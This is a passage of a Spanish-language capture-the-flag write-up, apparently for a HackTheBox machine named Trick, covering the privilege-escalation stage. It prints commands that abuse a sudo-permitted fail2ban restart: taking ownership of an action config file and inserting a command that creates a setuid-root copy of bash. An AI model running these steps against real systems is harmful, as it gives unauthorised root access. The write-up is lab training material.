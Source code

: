 ![Dentro]({{ 'assets/img/writeups/Trick/enobjetivo.png' | relative_url }}){: .center-image }

Antes de iniciar la escalada cambio la variable TERM a xterm. Esto me permitirá hacer CTRL+L para borrar.
```
> export TERM=xterm
```

## Escalada de Privilegios

```
> id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
``` 
Grupo interesante. De momento lo dejo pasar.
``` 
> sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
Esto ya si que no lo dejo pasar. Buscando algo de información por internet, escribiendo en navegador `fail2ban escalation sudo` encuentro esta página:

https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49  

Explican como escalar privilegios. Así que de perlas!. 

Básicamente es seguir los pasos, pero de manera ágil porque se borran los archivos pasado un tiempo. 
```
michael@trick:/etc/fail2ban/action.d$ ls -l iptables-multiport.conf
-rw-r--r-- 1 root root 1420 Mar 20 18:30 iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf iptables-multiport.conf.bak
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf.bak iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ ls -l iptables-multiport.conf
-rw-r--r-- 1 michael michael 1420 Mar 20 18:29 iptables-multiport.conf
```

Ahora le cambio los permisos para poder escribir en el archivo.
``` 
> chmod 666 iptables-multiport.conf
```
Entro en el archivo y modifico la operación que hará cuando haya un ban, el cual yo provocaré equivocándome unas cuantas veces en la conexión por ssh.  
Añado en actionban; `cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf`

Ya de paso **agradezco** su writeup al genio y figura **0xdf**, recomiendo sus writeups, son muy completos. (no tienes porque poner 0xdf, puedes crear la carpeta con el nombre que quieras.)

![ActionBan]({{ 'assets/img/writeups/Trick/actionban.png' | relative_url }}){: .center-image }
